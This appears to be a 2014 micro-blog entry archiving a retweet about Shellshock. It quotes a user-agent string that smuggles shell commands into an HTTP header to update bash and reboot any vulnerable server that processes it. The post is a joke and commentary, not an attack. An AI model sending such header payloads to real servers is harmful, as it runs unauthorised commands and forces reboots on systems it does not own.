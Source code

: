 Title: 
Category: micro
Date: 2014-09-26T17:38:32
Slug: 2014-09-26T17:38:32
TwitterId: 515556038792081409
TweetUrl: https://twitter.com/mark_philpot/status/515556038792081409

RT [@pixnbits](https://twitter.com/pixnbits): browsing the web with user agent
`() {.:;.}; yum -y update bash; apt-get -y update bash; reboot`
#shellshock